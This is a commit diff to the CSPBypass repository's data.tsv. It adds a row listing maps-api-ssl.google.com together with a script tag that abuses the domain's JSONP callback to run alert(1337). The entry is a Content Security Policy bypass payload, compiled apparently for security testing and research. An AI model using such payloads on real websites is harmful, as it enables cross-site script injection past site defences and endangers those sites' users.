

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added maps-api-ssl.google.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 75: maps-api-ssl.google.com | <script src="https://maps-api-ssl.google.com/maps/api/js?callback=alert(1337)"></script>
```
